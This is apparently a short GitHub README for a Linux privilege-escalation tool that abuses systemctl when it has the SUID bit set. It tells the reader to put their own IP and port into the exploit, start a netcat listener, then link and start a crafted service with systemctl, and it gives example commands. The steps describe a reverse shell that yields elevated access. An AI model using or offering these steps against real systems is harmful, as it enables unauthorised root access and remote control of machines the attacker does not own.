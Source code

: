 # linux-service-privilege-escalation
Basic service used for exploitating systemctl with SUID bit set.


## To use
- Change the exploit to your IP address and port number
- optional - change the name
- start NC listener
- enable the service
  - ```systemctl link PATH/TO/name.service```
  - ``` systemctl start NAME```

### example
```
systemctl link /var/tmp/jedd.service
systemctl start jedd
```
